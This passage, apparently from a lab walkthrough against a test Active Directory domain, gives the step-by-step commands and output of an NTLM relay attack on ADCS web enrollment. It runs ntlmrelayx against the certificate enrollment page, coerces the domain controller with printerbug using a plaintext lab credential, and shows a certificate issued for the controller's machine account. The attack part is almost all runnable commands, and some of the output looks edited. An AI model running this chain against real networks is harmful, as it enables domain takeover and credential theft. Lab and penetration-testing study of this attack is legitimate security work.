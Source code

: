 Let's test the web enrollment endpoint first:

```bash
# Check if ADCS web enrollment is accessible
curl -I http://braavos.essos.local/certsrv/certfnsh.asp

HTTP/1.1 401 Unauthorized
Content-Length: 1293
Content-Type: text/html
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate
WWW-Authenticate: NTLM
Date: Thu, 03 Jan 2025 16:45:12 GMT
```

Perfect! It's requesting NTLM authentication. Now let's set up the relay attack:

```bash
# Set up NTLM relay to ADCS HTTP endpoint
python3 ntlmrelayx.py -t http://braavos.essos.local/certsrv/certfnsh.asp -smb2support --adcs-attack --adcs-template "DomainController"

Impacket v0.11.0 - Copyright 2023 Fortra
Note: Output may vary slightly between versions - banners truncated for brevity

[*] Protocol Client DCOM loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections

# In another terminal, trigger authentication from target DC
python3 printerbug.py essos.local/missandei:fr3edom@meereen.essos.local braavos.essos.local

[*] Impacket v0.11.0 - Copyright 2023 Fortra
[*] Attempting to trigger authentication via rprn RPC at meereen.essos.local
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked

# Back in ntlmrelayx window:
[*] SMBD-Thread-4: Connection from MEEREEN/192.168.56.12 controlled, attacking target http://braavos.essos.local
HTTP        : success, Cert saved to /tmp/MEEREEN$cert.b64
[*] ADCS attack completed. Generated certificate for user MEEREEN$

# Certificate successfully obtained!
```
